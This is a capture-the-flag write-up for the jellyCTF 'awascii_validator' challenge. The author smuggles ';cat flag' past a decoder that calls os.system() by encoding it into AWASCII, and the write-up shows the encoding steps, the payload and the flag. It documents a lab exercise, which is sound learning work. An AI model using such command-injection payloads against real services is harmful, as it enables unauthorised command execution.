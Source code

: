 # awascii_validator

**Difficulty**: Medium

**Points earned**: 822

**Description**:

> Learning a new language is hard... maybe this could help with practice
> 
> 10 point hint: Where to start looking
> 
> Author: Sheepiroo
> 
> https://awascii-validator.jellyc.tf/

![awascii_validator input](./images/awascii_validator_input.png "awascii_validator input")

**Solution**: 

Like it says on the tin, the website decodes AWASCII into plaintext. I thought about doing a shell injection attack for this one just like [awafy_me](./awafy_me.md) but the application protects against this:

![awascii_validator invalid input](./images/awascii_validator_invalid.png "awascii_validator invalid input")

I unlocked the hint for this one but it didn't tell me anything i didn't already know:

> `os.system()` in awafier_decoder.py

Then I got the wild idea to encode `;cat flag.txt` into AWASCII (see page 5 of the [AWA5.0 spec](https://github.com/TempTempai/AWA5.0/blob/6fe3b2ef290a3df9c94822634c4ceb6c872cd2fd/AWA5.0%20Specs.pdf)). I did this manually but you could write a script to do this for you (and I ended up doing this later for [rev/lost_in_translation](../rev/lost_in_translation.md)).

```md
# plaintext
;cat flag

# ASCII code for each character
62 29 02 31 52 39 16 02 40

# in 6-bit binary
111110 011101 000010 011111 110100 100111 010000 000010 101000

# converted to AWASCII
wa wa wa wa wa awa
awa wa wa wa awa wa
awa awa awa awa wa awa
awa wa wa wa wa wa
wa wa awa wa awa awa
wa awa awa wa wa wa
awa wa awa awa awa awa
awa awa awa awa wa awa
wa awa wa awa awa awa

# concatenated with starting "awa"
awawawawawawa awa awawawawa awawa awa awa awa awawa awa awawawawawawawawa awawa awa awawa awa awawawawa awawa awa awa awa awa awa awa awa awawa awawa awawa awa awa awa
```

![awascii_validator solution](./images/awascii_validator_sol.png "awascii_validator solution")

**Flag**: `jellyCTF{m4st3rs_1n_awat1sm}`